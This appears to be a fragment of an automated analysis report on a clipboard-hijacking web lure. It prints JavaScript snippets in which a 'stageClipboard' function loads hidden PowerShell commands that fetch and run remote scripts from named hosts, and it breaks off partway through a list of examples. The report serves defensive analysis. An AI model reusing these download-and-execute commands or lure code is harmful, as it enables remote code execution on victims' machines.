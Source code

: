 Found 19 PowerShell download context snippets

### stageClipboard Function

Found 12 references to stageClipboard function

**Example stageClipboard contexts:**

**Example 1**:
```javascript
...eG4veXdPVmtrZW0udHh0JyAtVXNlQmFzaWNQYXJzaW5nKS5Db250ZW50')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

**Example 2**:
```javascript
...dC9wWkpIcXRlci50eHQnIC1Vc2VCYXNpY1BhcnNpbmcpLkNvbnRlbnQ=')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

**Example 3**:
```javascript
...eG4veXdPVmtrZW0udHh0JyAtVXNlQmFzaWNQYXJzaW5nKS5Db250ZW50')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

### Malicious Commands

Found 4 commandToRun declarations

Malicious commands being prepared for clipboard:

**Example 1**:

Command:
```powershell
powershell 
```

Context:
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```

**Example 2**:

Command:
```powershell
powershell 
```

Context:
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Example 3**:
